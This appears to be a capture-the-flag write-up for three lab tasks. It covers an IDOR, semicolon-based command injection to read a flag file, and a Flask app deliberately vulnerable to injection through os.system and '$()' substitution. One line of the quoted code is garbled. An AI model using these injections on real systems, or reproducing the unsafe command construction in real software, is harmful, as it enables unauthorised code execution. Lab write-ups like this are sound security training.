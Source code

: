 ### Task 9:
+ Use the credentials to log into the web application. Change user id in browser . Insecure Direct Object Reference (IDOR). Confirm Flag.

### Task 10:
+ Open website; inspect page; tried intercepting with BurpSuite; only POST and Response shows up, OK, it looks like this is a shell; used command injection:
```
; whoami
ubuntu
; ls -la
<response>
; cat flag.txt
Confirm flag
```

<img width="1668" height="582" alt="image-2" src="https://github.com/user-attachments/assets/7eea878e-b499-44bf-a296-f4948029bf13" />

<img width="1668" height="582" alt="image-4" src="https://github.com/user-attachments/assets/4c329a33-2d68-416e-9310-c42b68353b14" />


***Note: ; (semicolon) allows multiple commands sequentially. So used it to escape the first command that ran the .py script, then executed my queries.***

### Task 11:
+ In Task 10, when list file I've found the file name `app.py.save`.
+ Check it and this is code of Task 11:
```
Usage: python3 enc.py -r <recipient> -t <text>
from flask import Flask, request, render_template, send_file, abort
import os
import tempfile

app = Flask(__name__)
UPLOAD_FOLDER = tempfile.gettempdir()

@app.route("/", methods=["GET", "POST"])
def encrypt_file():
    if request.method == "POST":
        uploaded_file = request.files.get("file")
        recipient = request.form.get("recipient", "")
        
        if not uploaded_file:
            error = "No file uploaded."
            return render_template("encrypt.html", error=error)
        
        # Save the uploaded file
        filepath = os.path.join(UPLOAD_FOLDER, uploaded_file.filename)
        uploaded_file.save(filepath)
        
        # Allowed PGP keys
        allowed_recipients = [
            "ByteReaper", "NullPhantom", "Cipher",
            "ShadowPacket", "GhostTrace", "DarkInjector"
        ]
        
        # Check that the provided recipient is allowed.
        # (This check is too simplistic and can be bypassed if an attacker modifies the request)
        if recipient not in allowed_recipients:
            error = "Invalid encryption recipient selected."
            return render_template("encrypt.html", error=error)
        
        # Vulnerable command construction:
        # The command is built directly with user input, enabling injection if the value is manipulated.
        command = f"gpg --encrypt --recipient {recipient} --output {filepath}.gpg {filepath}"
        os.system(command)
        
        # Return the encrypted file for download
        return send_file(f"{filepath}.gpg", as_attachment=True)
    
    return render_template("encrypt.html")

if __name__ == "__main__":
    app.run(hots0st dssdsdsdebug=True)
```

+ The vuln appear in `command` and `os.system`.
+ Thinking `Command Injection` and potential param are `filepath` or `recipient` .
+ Found the syntax to exploit `Command Injection` and `RCE` that is  `$()`.
<img width="3122" height="1282" alt="image-5" src="https://github.com/user-attachments/assets/8f52056e-3bf0-4010-bc1d-9efbd17f2ee7" />

***Note: `$(command)` is “command substitution”.  As you seem to understand, it runs the command, captures its output, and inserts that into the command line that contains the $()***
